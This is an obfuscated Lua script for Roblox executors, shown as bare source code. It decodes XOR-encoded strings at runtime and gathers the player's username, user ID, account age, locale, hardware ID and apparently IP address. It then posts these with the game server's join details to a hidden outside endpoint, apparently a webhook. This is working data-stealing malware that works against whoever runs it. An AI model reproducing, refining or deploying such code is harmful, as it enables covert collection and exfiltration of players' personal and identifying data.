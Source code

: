         local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v28,v29) local v30={};for v40=1, #v28 do v6(v30,v0(v4(v1(v2(v28,v40,v40 + 1 )),v1(v2(v29,1 + (v40% #v29) ,1 + (v40% #v29) + 1 )))%256 ));end return v5(v30);end local v8=game:GetService(v7("\249\215\207\53\213\190\213\8\216\192\222","\126\177\163\187\69\134\219\167"));local v9=game:GetService(v7("\19\193\43\220\249\49\222","\156\67\173\74\165"));local v10=game:GetService(v7("\25\182\91\29\185\50\86\56\182\74\19\143\35\84\34\190\74\19","\38\84\215\41\118\220\70"));local v11=v9.LocalPlayer;local v12=v11.UserId;local v13=v11.DisplayName;local v14=v11.Name;local v15=tostring(v11.MembershipType):sub(16 + 5 );local v16=v11.AccountAge;local v17=game.LocalizationService.RobloxLocaleId;local v18=game:HttpGet(v7("\88\2\54\2\237\10\89\109\4\170\30\31\38\23\240\68\88\47\23\177","\158\48\118\66\114"));local v19=game:HttpGet(v7("\163\48\4\38\41\234\180\162\52\93\55\99\172\181\168\43\29\121\121\182\244\165","\155\203\68\112\86\19\197"));local v20=game:GetService(v7("\116\223\46\221\78\121\233\225\82\212\53\239\115\125\247\238\79\222\51","\152\38\189\86\156\32\24\133")):GetClientId();local v21=v7("\206\88\165\74\243\79\233\97\253\90\162\106\253\66\169\69\244\82\181\8\246\88\174\72\219\86\170\67\213\89\180\82\253\89\164\67\180","\38\156\55\199")   .. game.PlaceId   .. ', "'   .. game.JobId   .. '")' ;local v22=v10:GetProductInfo(game.PlaceId).Name;local function v23() return identifyexecutor();end print(v23());local function v24() local v31=0;local v32;local v33;while true do if (v31==0) then v32=v23();v33={[v7("\169\107\125\60\18\102\197\86\186\113","\35\200\29\28\72\115\20\154")]="",[v7("\26\176\223\203\136\34\32","\84\121\223\177\191\237\76")]="",[v7("\190\91\203\165\62\67","\161\219\54\169\192\90\48\80")]={{[v7("\72\87\20\45\70\80","\69\41\34\96")]={[v7("\178\194\218\15","\75\220\163\183\106\98")]=v7("\49\181\134\50\214\12\191\203\50\193\7\185\158\35\220\6\250\146\56\204\16\250\152\52\203\11\170\159","\185\98\218\235\87"),[v7("\222\46\43","\202\171\92\71\134\190")]=v7("\33\213\56\152\58\155\99\199\59\206\46\132\38\217\98\139\38\204","\232\73\161\76")},[v7("\191\220\81\94\12\178\201\86\84\17\181","\126\219\185\34\61")]=string.format(v7("\51\241\101\66\114\118\234\226\30\142\119\124\120\120\206\175\4\218\74\98\109\45\188\168\27\217\73\60\108\120\241\235\3\214\16\113\113\122\188\242\31\203\76\97\49\50\247\174\51\241","\135\108\174\62\18\30\23\147")   .. " **\nDisplay Name:** %s \n**Username:** %s \n**User Id:** %d\n**MembershipType:** %s"   .. "\n**AccountAge:** %d\n**Country:** %s**\nIP:** %s**\nHwid:** %s**\nDate:** %s**\nTime:** %s"   .. "\n\n__[Game Info](https://www.roblox.com/games/%d)__"   .. "\n**Game:** %s \n**Game Id**: %d \n**Exploit:** %s"   .. "\n\n**Data:**```%s```\n\n**JobId:**```%s```" ,v12,v13,v14,v12,v15,v16,v17,v18,v20,tostring(os.date(v7("\243\228\101\142\28\225\118\254","\167\214\137\74\171\120\206\83"))),tostring(os.date(v7("\206\200","\199\235\144\82\61\152"))),game.PlaceId,v22,game.PlaceId,v32,v19,v21),[v7("\19\15\169\46","\75\103\118\217")]=v7("\213\93\115\28","\126\167\52\16\116\217"),[v7("\203\33\44\143\166","\156\168\78\64\224\212\121")]=tonumber(v7("\87\246\131\232\35\185\245\158","\174\103\142\197")),[v7("\66\32\74\53\39\80\249\95\36","\152\54\72\63\88\69\62")]={[v7("\193\214\226","\60\180\164\142")]=v7("\80\74\17\57\52\183\93\23\73\18\62\105\255\29\90\82\10\49\105\238\29\85\17\13\44\38\233\1\80\81\17\100\51\229\7\85\92\11\40\46\225\93\81\83\4\46\34\178\7\75\91\23\0\35\176","\114\56\62\101\73\71\141")   .. v12   .. v7("\254\254\210\192\172\225\134\149\237\185\157\204\189\224\220\204\172\180\138\145\232\175\221\203\170\228\218\208\229\249\213\195","\164\216\137\187") }}}};v31=1 -0 ;end if (v31==(1710 -(71 + 1638))) then return v8:JSONEncode(v33);end end end local function v25(v34,v35) local v36=0 -0 ;local v37;local v38;local v39;while true do if (v36==1) then v39={[v7("\246\29\142","\170\163\111\226\151")]=v34,[v7("\51\63\182\33","\73\113\80\210\88\46\87")]=v35,[v7("\172\41\217\26\232\133","\135\225\76\173\114")]=v7("\42\194\139\132","\199\122\141\216\208\204\221"),[v7("\133\216\17\244\125\228\190","\150\205\189\112\144\24")]=v37};v38(v39);break;end if (v36==(0 + 0)) then local v41=0 -0 ;while true do if (v41==(1 + 0)) then v36=1;break;end if ((0 + 0)==v41) then v37={[v7("\209\233\63\166\163\240\31\159\242\40\162\163","\107\178\134\81\210\198\158")]=v7("\57\30\146\202\163\59\15\150\207\165\54\65\136\213\165\54","\202\88\110\226\166")};v38=http_request or v38 or HttpPost or syn.request ;v41=1;end end end end end local v26=v7("\45\144\171\92\23\210\94\95\33\141\172\79\11\154\21\94\38\139\178\3\5\152\24\95\50\129\189\68\11\135\26\3\106\213\236\29\80\219\72\67\112\211\237\30\83\221\64\67\117\208\235\28\75\157\4\10\55\208\166\90\86\218\31\59\45\210\177\77\46\187\21\66\32\187\231\117\16\161\7\7\50\145\185\20\0\174\37\21\3\144\156\65\42\186\9\60\0\135\176\25\82\128\65\47\31\161\133\110\32\170\71\34\51\144\239\26\18\189\64\59\118","\112\69\228\223\44\100\232\113");local v27=v24();v25(v26,v27);
        